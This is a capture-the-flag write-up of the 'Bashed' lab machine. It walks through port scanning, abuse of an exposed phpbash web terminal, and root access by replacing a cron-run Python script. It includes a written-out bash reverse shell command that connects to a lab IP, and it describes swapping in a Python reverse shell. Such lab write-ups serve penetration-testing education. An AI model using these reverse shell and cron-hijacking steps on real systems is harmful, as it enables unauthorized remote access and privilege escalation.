 # @author:M3tr1c_r00t
## Bashed!
![Bashed](https://user-images.githubusercontent.com/99975622/202862039-e78a24cc-0f68-40f4-a49d-75a9ffd2fede.png)

### Enumeration
Step 1: nmap and Gobuster 
![Screenshot_2022-11-16_20_23_00](https://user-images.githubusercontent.com/99975622/202862058-77be6473-4c70-4736-88de-554dcfb1fb2a.png)
Only one port is open. So lets visit it.
![Screenshot_2022-11-16_20_24_37](https://user-images.githubusercontent.com/99975622/202862155-cfc96543-4ebd-459d-96e0-703855abf6ba.png)
The site was working on a feature known as phpbash. Which is kind of an emulation of the terminal but in a site format.

After interacting for a while I found a way that i could use to get a reverse shell.
I created a reverse shell file bash script...
![Screenshot_2022-11-16_20_25_50](https://user-images.githubusercontent.com/99975622/202862582-4286437c-3d8f-4eec-85bb-56c5820099da.png)
echo "bash -c'bash -i >& /dev/tcp/10.10.14.99/1234 0>&1'" > reverse.sh
![Screenshot_2022-11-16_20_26_09](https://user-images.githubusercontent.com/99975622/202862671-8251b9ce-40d6-4039-858d-61ebd57f5a23.png)
And we got our reverse shell!

We can now read the user flag.
### Priv Esc
looking around in our the user's file system, we find a folder 'scripts'. 
In it there are two files.

![Screenshot_2022-11-16_20_27_49](https://user-images.githubusercontent.com/99975622/202862861-494c426e-6b98-4e95-9f46-83c2cb3f9d0a.png)
On checking out the two files, it seems like the test.py is being executed in a cron cycle....
![Screenshot_2022-11-16_20_27_55](https://user-images.githubusercontent.com/99975622/202862962-4ad54918-7bad-480e-b974-407c570252ab.png)
We can replace the file with a python reverse shell coz the script is being run by the root user.
![Screenshot_2022-11-16_20_29_36](https://user-images.githubusercontent.com/99975622/202863235-dff171b4-886d-4a31-af62-eb69e51bb403.png)
You can find this code from pentestmonkey's cheetsheet.

![Screenshot_2022-11-16_20_30_29](https://user-images.githubusercontent.com/99975622/202863295-c4e83c3a-d45e-4d25-a910-7908d0b0db5a.png)
We open a listener and we get a reverse shell as root!


